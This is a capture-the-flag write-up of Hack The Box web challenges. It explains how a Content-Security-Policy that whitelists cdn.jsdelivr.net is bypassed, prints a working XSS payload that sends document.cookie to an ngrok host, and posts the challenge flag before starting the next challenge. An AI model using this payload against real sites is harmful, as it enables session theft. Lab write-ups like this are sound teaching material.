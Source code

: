 ```
Content-Security-Policy: script-src 'self' https://cdn.jsdelivr.net ; style-src 'self' https://fonts.googleapis.com; img-src 'self'; font-src 'self' https://fonts.gstatic.com; child-src 'self'; frame-src 'self'; worker-src 'self'; frame-ancestors 'self'; form-action 'self'; base-uri 'self'; manifest-src 'self'
```
After a little bit of research about CSP and XSS, I found out in the CSP evaluator :
```
cdn.jsdelivr.net is known to host JSONP endpoints and Angular libraries which allow to bypass this CSP.
```
We can host an `xss.js` file on a GH repository and add something like alert(1). We can finally trigger the alert, but we need to cookie.

Digging deep enough, i found out this repository: [CSP bypass](https://github.com/CanardMandarin/csp-bypass). It's a simple project that allows the bypass of csp.

we need to create a script tag that point to that repository and  execute a "query" to our ngrok.

Finally we got it:
```javascript
<script src="https://cdn.jsdelivr.net/gh/canardmandarin/csp-bypass@master/dist/sval-classic.js"></script><br csp="window.location='[ngrok url]/?c='.concat(document.cookie)">
```
We got the cookie.
In the `JWTHelper.js` file we see how the JWT token is signed. It uses HS256 with a big random hex string .
```javascript
const APP_SECRET = crypto.randomBytes(69).toString('hex');

module.exports = {
	sign(data) {
		data = Object.assign(data);
		return (jwt.sign(data, APP_SECRET, { algorithm:'HS256' }))
	},
	async verify(token) {
		return (jwt.verify(token, APP_SECRET, { algorithm:'HS256' }));
	}
}
```

Finaly we decoded our token using `jwt.io`.

The flag :
```
HTB{cdn_c4n_byp4ss_c5p!!}
```

# Evaluation Deck

>  A powerful demon has sent one of his ghost generals into our world to ruin the fun of Halloween. The ghost can only be defeated by luck. Are you lucky enough to draw the right cards to defeat him and save this Halloween?

## Solution
We are given the source code for the website, after reading some of the code, I found an API that features an interesting method that supposedly calculates the health of the ghost (in the website) from the given parameters.
